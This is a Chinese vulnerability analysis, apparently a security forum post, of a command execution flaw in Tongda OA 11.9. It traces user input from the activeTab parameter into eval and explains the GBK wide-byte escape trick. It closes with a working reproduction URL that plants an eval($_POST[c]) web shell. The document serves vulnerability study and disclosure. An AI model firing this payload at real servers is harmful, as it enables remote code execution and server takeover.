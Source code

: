 前言
--

**本文所涉及漏洞均为互联网上已公开漏洞,仅用于合法合规用途，严禁用于违法违规用途。**

### 漏洞描述

通达OA（OfficeAnywhere网络智能办公系统）是由北京通达信科科技有限公司自主研发的协同办公自动化软件，是与中国企业管理实践相结合形成的综合管理办公平台。通达OA11.9存在**命令执行漏洞**，攻击者可以通过命令执行漏洞并获取服务器权限，导致服务器失陷。

### 漏洞分析

webroot\\general\\appbuilder\\modules\\portal\\controllers\\GatewayController.php#actionGetdata

首先这里判断是否存在id参数

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/02/attach-4cb8bf7c32bde7518028d62c18cdbaed55c0803a.png)

在确定存有id参数值后，判断传入的module的值后依次执行GetData与toUTF8方法

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/02/attach-a6e0dc81a1211274b9479dc3f7760194d60ed441.png)

GetData
-------

首先跟进GetData方法，根据id值进行查询

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/02/attach-da1014ce051d75c1b8fb1393200ee16cc7041470.png)

数据库中内容如下

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/02/attach-57bb64133d0356f427886191b4b0ce2d3e5c5fb6.png)

接下来判断查询出的$source变量的值，对$data赋值后将值返回

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/02/attach-4ca02cf99eb095cbc144053cc9bff497f818fe0d.png)

当查询出的 $source 不为 custom\_link 时 调用modules\\portal\\components\\AppDesignComponents #data\_analysis 这里会根据传入的$model值调用不同类的get\_data方法，所以在这种情况下$model值必须为已有的类名

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/02/attach-5f3e92b62e0e7101b24d66aeff0ce185d9f50b7c.png)

随意跟进一个get\_data方法，这里也会根据 $source 值进行匹配，所以传入的id值在数据库中必须有对应的 $source 值

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/02/attach-03ab0a3e1ca2c76322204bf0e17110c65bd1deae.png)

data值仅有 activeTab 是用户传进来的，其余都是根据id值在数据库中查询出来的

```php
$data = array("page_total" => "", "total_nums" => "", "curnum" => "", "pagelimit" => "", "open_mode" => $open_mode, "activeTab" => $activeTab, "data_sources" => $source, "data" => $url);
```

ToUTF8
------

将data经过GBK转UTF-8后,传入eval进行代码执行

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/02/attach-7f1fa11a44fcb86ccda4cf62482e6d800a782b1b.png)

转码时候就与sql注入时接触到的宽字节注入一样，输入%df%27时首先经过上面提到的单引号转义变成了%df%5c%27（%5c是反斜杠\\），然后%df%5c正好属于gbk的汉字编码范围，经过iconv转换到utf-8编码转换后变成了汉字，从而吞掉了反斜杠使得单引号逃脱出来，下面就是一个简单的示例

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/02/attach-cb3520e2e7940d0adb81bfdf7263cff1bd684f8e.png)

漏洞复现
====

> [http://192.168.31.70:8088/general/appbuilder/web/portal/gateway/getdata?activeTab=%df%27,1%3D%3Eeval($\_POST\[c\]));/\*&amp;id=19&amp;module=Carouselimage](http://192.168.31.70:8088/general/appbuilder/web/portal/gateway/getdata?activeTab=%DF%27,1%3D%3Eeval($_POST%5Bc%5D));/*&id=19&module=Carouselimage)

经过上述的分析过程，三个参数的值均不唯一，给出的复现链接仅供参考

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/02/attach-7002f80c5b74bff5c1bc9f82e045325697738091.png)